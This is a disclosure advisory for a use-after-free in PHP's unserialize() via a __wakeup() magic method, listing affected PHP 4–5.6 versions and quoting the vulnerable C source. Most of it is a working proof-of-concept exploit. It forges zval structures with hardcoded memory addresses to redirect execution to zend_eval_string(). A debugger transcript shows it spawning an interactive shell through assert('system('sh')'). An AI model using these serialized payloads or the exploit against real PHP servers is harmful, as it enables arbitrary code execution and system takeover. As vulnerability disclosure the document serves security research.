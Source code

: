 #Use After Free Vulnerability in unserialize() 
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.2.3 - Release Date: 2015.3.20

> A use-after-free vulnerability was discovered in unserialize() with a specially defined object's __wakeup() magic method that can be abused for leaking arbitrary memory blocks or execute arbitrary code.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.7  
Affected is PHP 5.5 < 5.5.23  
Affected is PHP 5.4 < 5.4.39  
Affected is PHP 5 <= 5.3.29  
Affected is PHP 4 <= 4.4.9

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
static inline int object_common2(UNSERIALIZE_PARAMETER, zend_long elements)
{
	zval retval;
	zval fname;

	if (Z_TYPE_P(rval) != IS_OBJECT) {
		return 0;
	}

	//??? TODO: resize before
	if (!process_nested_data(UNSERIALIZE_PASSTHRU, Z_OBJPROP_P(rval), elements, 1)) {
		return 0;
	}

	ZVAL_DEREF(rval);
	if (Z_OBJCE_P(rval) != PHP_IC_ENTRY &&
		zend_hash_str_exists(&Z_OBJCE_P(rval)->function_table, "__wakeup", sizeof("__wakeup")-1)) {
		ZVAL_STRINGL(&fname, "__wakeup", sizeof("__wakeup") - 1);
		BG(serialize_lock)++;
		call_user_function_ex(CG(function_table), rval, &fname, &retval, 0, 0, 1, NULL);
```

A specially defined __wakeup() magic method lead to various problems.

The simple code:

``` php
<?php
 
class evilClass {

	public $var;

	function __wakeup() {
		unset($this->var);
//		$this->var = 'ryat';
	}
}

$data = unserialize('a:2:{i:0;O:9:"evilClass":1:{s:3:"var";a:1:{i:0;i:1;}}i:1;R:4;}');

?>
```
 
Object properties assignment or destroy operation leads to the ZVAL and all its children is freed from memory. However the unserialize() code will still allow to use R: or r: to set references to that already freed memory. There is a use after free vulnerability, and allows to execute arbitrary code.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

``` php
<?php

$f = $argv[1];
$c = $argv[2];

$fakezval1 = ptr2str(0x100b83008);
$fakezval1 .= ptr2str(0x8);
$fakezval1 .= "\x00\x00\x00\x00";
$fakezval1 .= "\x06";
$fakezval1 .= "\x00";
$fakezval1 .= "\x00\x00";

$data1 = 'a:3:{i:0;O:9:"evilClass":1:{s:3:"var";a:1:{i:0;i:1;}}i:1;s:'.strlen($fakezval1).':"'.$fakezval1.'";i:2;a:1:{i:0;R:4;}}';

$x = unserialize($data1);
$y = $x[2];

// zend_eval_string()'s address
$y[0][0] = "\x6d";
$y[0][1] = "\x1e";
$y[0][2] = "\x35";
$y[0][3] = "\x00";
$y[0][4] = "\x01";
$y[0][5] = "\x00";
$y[0][6] = "\x00";
$y[0][7] = "\x00";

$fakezval2 = ptr2str(0x3b296324286624); // $f($c);
$fakezval2 .= ptr2str(0x100b83000);
$fakezval2 .= "\xff\xff\xff\xff";
$fakezval2 .= "\x05";
$fakezval2 .= "\x00";
$fakezval2 .= "\x00\x00";

$data2 = 'a:3:{i:0;O:9:"evilClass":1:{s:3:"var";a:1:{i:0;i:1;}}i:1;s:'.strlen($fakezval2).':"'.$fakezval2.'";i:2;a:1:{i:0;R:4;}}}';

$z = unserialize($data2);
intval($z[2]);

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

class evilClass {
	
	public $var;
	
	function __wakeup() {
		unset($this->var);
//		$this->var = 'ryat';
	}
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run uafpoc.php assert "system\('sh'\)==exit\(\)"
Process 13472 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Sep  9 2014 19:09:25) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 13472 exited with status = 0 (0x00000000) 
(lldb) 
```
